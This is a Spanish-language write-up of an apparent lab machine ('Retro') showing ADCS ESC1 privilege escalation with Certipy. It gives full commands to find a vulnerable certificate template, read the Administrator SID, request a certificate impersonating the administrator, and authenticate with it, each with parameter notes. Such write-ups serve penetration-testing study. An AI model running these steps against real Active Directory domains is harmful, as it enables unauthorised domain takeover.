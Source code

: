 #esc1

-----------

Vamos a usar este [articulo](https://www-hackingarticles-in.translate.goog/a-detailed-guide-on-certipy/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para usar el [[certipy]] y escalar prilegios


```
python3 /home/bunzo/.local/bin/certipy find -username 'BANKING$'@retro.vl -password 'exploit' -dc-ip 10.129.234.44 -vulnerable -enable -stdout
```
*Parametros:* 
	`find` Es para buscar 
	`-username` Usuario
	`-password` Contraseña
	`-dc-ip` Es la ip victima
	`-vulnerable` Indica que queremos detectar los templates con configuraciones inseguras
	`-enable` Si la CA está deshabilitada, pide que se habilite la inscripción (requiere que la cuenta tenga permisos suficientes).
	`-stdout` Muestra toda la informacion directamente en la salida edl comando

![[Retro22.png]]
![[Retro23.png]]
Nos da el template que se llama *RetroClients* y el CA que es *retro-DC-CA*. Y nos indica que hay una vulnerabilidad *ESC1*

Con este comando estamos intentando leer la ifnormacion de la cuienta Administrator utilizando las credenciales del usuario BANKING$

```
python3 /home/bunzo/.local/bin/certipy account -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -user Administrator read
```
*Parametros:*
	`account` Indica que se va a trabajar con **cuentas de Active Directory** (crear, leer, modificar, eliminar atributos, etc.).
	`-user Administrator` Especifica que querés actuar sobre la cuenta Administrator.
	`read`Acción: leer atributos de esa cuenta (por ejemplo, descripción, SID, grupos, SPNs, etc.).
![[Retro24.png]]
Nos da el objectSid que lo vamos a usar a posteriori


Ahora con todos los datos que ya recopilamos vamos a hacer la solicitud para descargar el certificado

```
python3 /home/bunzo/.local/bin/certipy req -u 'BANKING$' -p exploit -dc-ip 10.129.234.44 -target 10.129.234.44 -ca retro-DC-CA -template 'RetroClients' -upn 'administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096 -debug
```
*Parametros:*
	`req` Solicita un certificado a la CA
	`-ca ` Nombre de la Certificate Authority en el dominio.
	`-template` Plantilla de certificado que se va a usar; en laboratorios suele ser mal configurada para permitir enrollment de cualquier usuario.
	`-upn` Usuario objetivo que queremos impersonar con el certificado
	`-sid` SID del usuario objetivo, para que el certificado tenga la identidad correcta.
	`-key-size 4096` Si no poniamos este valor, nos daba un error por el tamaño de la key
	`-debug` Muestra información detallada de la operación para diagnóstico.

![[Retro28.png]]

Ahora nos vamos a utentificar en el dominio usando el certificado enves ed una contraseña tradicional
```
python3 /home/bunzo/.local/bin/certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44
```
*Parametros:*
	`auth` Indica que se va a utentificar con un certificado
	`-pfx administrator.pfx` Es para indicar el archivo que contiene el certificado

![[Retro29.png]]


